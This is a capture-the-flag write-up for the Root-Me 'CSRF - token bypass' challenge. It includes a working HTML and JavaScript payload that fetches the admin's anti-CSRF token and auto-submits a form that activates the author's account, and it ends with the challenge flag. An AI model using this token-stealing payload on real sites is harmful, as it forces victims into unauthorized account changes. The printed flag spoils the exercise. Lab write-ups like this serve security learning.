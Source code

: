 # CSRF - token bypass

**Point**: 45 Points

## Solution:

This is a  CSRF vulnerability with adding 1 secure layer - **CSRF token** . Get in the page, we see a form: 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159601753-f08b4ef7-75f1-43b3-8b28-3b0c8e0a5aea.png" ></p>

Before "Login", we have to register. Move to "Register" and create an account. For example, in my case, username is `khangtictoc` and password is `123`

Log in this account. Move to "Private" 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159602721-0d988354-cb0f-43bd-ba64-49e8a20feea5.png" ></p>


This section is for activated account. So we could reach that via sending a malicious HTML content to "Contact". 

But how do we achieve this action ? In "Profile", there's a **disable** checkbox and a button "Submit". 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159603119-dc64359d-bb4e-4fb7-bfbd-0114c02b2d94.png" ></p>

Enable the checkbox, in "Dev Tool" (F12) replace `disabled=""` with `checked`. Then click "Submit" button.

```html
<input type="checkbox" name="status" checked>
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159631629-ce07c8ba-5e3f-4b6c-bf37-ed9a7a6b287d.png" ></p>

Only **admin** can do this action. But we could make **administrator** do the activation for us. Move to "Network" section, examine **Request Headers**:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159632033-7ee73905-fbe4-4313-9815-5ab0901ca2d8.png" ></p>

With **Origin** and **Referer** headers, we use form with POST request to send data to bypass this. But there's is another things we should care for.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159632330-9b687a4d-36c1-45d5-8399-97d8929bb325.png" ></p>

The form has a token for anti-CSRF. You may be aware that this token is changed for each time we submit or reload a page again. So we can't use old attack because beside **Cookie**, there's one-time-used token that we didn't know from **admin**.  

Our idea is we'll collect the token as soon as our script is loaded in **admin side**; and then submit it with the form. We just have to write some more **Javascript** code do this task. Constructing an auto-submit form. Copy the given form:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159633736-f00ef5dd-888d-4a4e-ab05-4d2796594167.png" ></p>

Changing `checkbox` as we've done previous. Create payload: 
- Make sure value in **input/type=text** is our **username** 
- Set `action` to "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" for fixed path, we can "POST" data no matters the place(domain) we are
- Add **javascript code** for auto-submit.
- Put the payload in full **HTML format**. The payload 's contained in `<html></html>` and in `<body></body>`

Let's write a 'gadget' code to receive **admin's token.** View the request in "Network" tab. Our request use `GET` method. There're many measures we can create a `GET` request. [Popular way creating http request in JS!](https://www.freecodecamp.org/news/here-is-the-most-popular-ways-to-make-an-http-request-in-javascript-954ce8c95aaa/)

The most convenient way is using AJAX. ( FYI: AJAX supports many **http verbs** like `GET` `PUT` `POST` , ...)

```javascript

// You can run line-by-line to debug and see the result in "Console" tab
// Create a "GET" Request  
var getRequest = new XMLHttpRequest();

// Little tricky here ! We should set 3rd parameter to "false" value. It means we turn off "asynchronous". 
// If not, GET request will run seperately and "tokenAdmin" is created before the token's data from the form return; therefore, "tokenAdmin" returns "null"
getRequest.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);

// Send it to server.
getRequest.send();

// Use regex to get the token from admin; Our token is a hash having a fixed value of 32 characters (256 bits)
var tokenAdmin = getRequest.response.match(/[qwertyuiopasdfghjklzxcvbnm1234567890]{32}/)[0];

// Change the value of token in the form to admin'token for submitting
document.getElementById('token').value = tokenAdmin;
// Auto submit the form 
document.getElementById('profile').submit();

```

Combine with the original form we extracted. Our final payload:

Your email: khangtictoc@gmail.com (arbitrary string)

Comment:

```html
<html>
    <body>
        <form id="profile" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" method="post" enctype="multipart/form-data">
            <div>
            <label>Username:</label>
            <input id="username" type="text" name="username" value="khangtictoc">
            </div>
            <br>		
            <div>
            <label>Status:</label>
            <input id="status" type="checkbox" name="status" checked>
            </div>
            <br>
            <input id="token" type="hidden" name="token" value="">
            <button type="submit">Submit</button>
        </form>
        <script>
            var getRequest = new XMLHttpRequest();
            getRequest.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);
            getRequest.send();

            var tokenAdmin = getRequest.response.match(/[qwertyuiopasdfghjklzxcvbnm1234567890]{32}/)[0];

            document.getElementById('token').value = tokenAdmin;
            document.getElementById('profile').submit();
        </script>
    </body>
</html>
```

Wait for a while for autbot's working. Direct to "Private" section:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159635785-ca8689b6-8d08-4562-90e8-233a98ed7efe.png" ></p>

**NOTE: The flag says that we should use XSS vulnerability to bypass but i don't know how. So, screw it :))**

Flag: **Byp4ss_CSRF_T0k3n-w1th-XSS**
